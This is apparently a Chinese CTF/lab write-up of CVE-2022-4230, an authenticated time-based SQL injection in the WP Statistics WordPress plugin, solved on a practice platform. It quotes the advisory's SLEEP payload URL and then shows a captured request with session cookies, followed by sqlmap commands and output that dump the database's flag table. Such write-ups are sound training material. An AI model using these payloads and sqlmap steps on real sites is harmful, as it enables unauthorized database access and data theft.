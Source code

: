 ```yaml
---
title: "CVE-2022-4230"
date: 2024-07-24
tags: ["春秋云镜","CVE","WordPress","SQLi"]
featured_image: "https://static.guyu.pro/yunjing.ichunqiu.com/CVE.webp"
draft: false
---
```


<https://wpscan.com/vulnerability/a0e40cfd-b217-481c-8fc4-027a0a023312>


## WP Statistics 13.2.9 - Authenticated SQLi


### Description

The plugin does not escape a parameter, which could allow authenticated users to perform SQL Injection attacks. By default, the affected feature is available to users with the manage_options capability (admin+), however the plugin has a settings to allow low privilege users to access it as well.

### Proof of Concept

```http
Log in as a user allowed to View WP Statistic and get a nonce via 

https://example.com/wp-admin/admin-ajax.php?action=rest-nonce

, and use it in the URL below, which will be delayed by 5s:

http://example.com/wp-json/wp-statistics/v2/metabox?_wpnonce=NONCE&name=words&search_engine=aaa%27%20AND%20(SELECT%205671%20FROM%20(SELECT(SLEEP(5)))Mdgs)--%20HsBR
```

## 演示

环境: [春秋云镜 免费空间>CVE-2022-4230](https://yunjing.ichunqiu.com/cve/detail/1165)

### 1.登录

站点名称 test  尝试 用户名`test` 密码 `test`

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/1.webp)

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/2.webp)


### 2.验证

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php?action=rest-nonce>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/3.webp)

获得`373ec6388f`

替换利用url的NONCE值为`373ec6388f`

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa%27%20AND%20(SELECT%205671%20FROM%20(SELECT(SLEEP(5)))Mdgs)--%20HsBR>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/4.webp)

### 3.利用

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa> 因为要在已登录状态注入，需要带上cookie

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/5.webp)

保存为1165，在url地址参数`search_engine=aaa`后添加`*`，让sqlmap指定位置注入

```http
GET /wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa* HTTP/1.1
Host: eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1721788611; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1721788611; HMACCOUNT=2484925BEB32E239; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_c2b05042e81e305748a3152f767ae796=test%7C1721961933%7C6aDuiQPvnYxV9n8rJoFMRrb2lLidmM44qJCWIkWBhpL%7C760092fb3e6b0d9fc2c20b27b5f932cc58550f89e95c485856a99d346212a418; wp-settings-time-1=1721789134
Connection: close
```

使用sqlmap注入

```bash
$ sqlmap -r 1165
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa' AND (SELECT 8907 FROM (SELECT(SLEEP(5)))nhIB) AND 'aFnu'='aFnu
---
[23:17:06] [INFO] the back-end DBMS is MySQL
[23:17:06] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
web application technology: PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

$ sqlmap -r 1165 --batch --current-db
current database: 'wordpress'

$ sqlmap -r 1165 --batch --tables -D wordpress
[23:31:20] [INFO] retrieved: flag

$ sqlmap -r 1165 --batch --dump -D wordpress -T flag
Database: wordpress
Table: flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{7f698f8b-2cde-4f19-ab79-5e96778812d4} |
+--------------------------------------------+
```

